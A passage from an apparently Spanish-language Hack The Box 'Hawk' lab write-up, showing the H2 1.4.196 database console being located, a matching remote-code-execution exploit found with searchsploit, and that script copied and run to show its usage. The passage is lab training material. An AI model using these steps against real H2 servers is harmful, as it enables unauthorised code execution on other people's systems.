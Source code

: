 ![](/assets/images/htb-hawk/hawk_lpf.jpg)

Dentro de este panel, modifcamos el siguiente valor y la damos en **Conectar**:
- URL JDBC: jdbc:h2:~/k4mishell

![[hawk_k4mishell.jpg]]

Vemos que se usa la versión `H2 1.4.196`, por lo que procedemos a buscar un posible exploit:

```bash
❯ searchsploit H2 1.4.196
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
H2 Database 1.4.196 - Remote Code Execution                                                    | java/webapps/45506.py
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

Vemos un posible exploit a utilizar hecho en `python`, por lo que lo descargar y procedemos a ejecutarlo:

```bash
❯ searchsploit -m java/webapps/45506.py
  Exploit: H2 Database 1.4.196 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/45506
     Path: /usr/share/exploitdb/exploits/java/webapps/45506.py
File Type: Python script, UTF-8 Unicode text executable, with CRLF line terminators

Copied to: /home/k4miyo/Documentos/HTB/Hawk/exploits/45506.py


❯ mv 45506.py h2_console.py
❯ python3 h2_console.py
usage: h2_console.py [-h] -H 127.0.0.1:8082 [-d jdbc:h2:~/emptydb-N5s2o]
h2_console.py: error: the following arguments are required: -H/--host
```
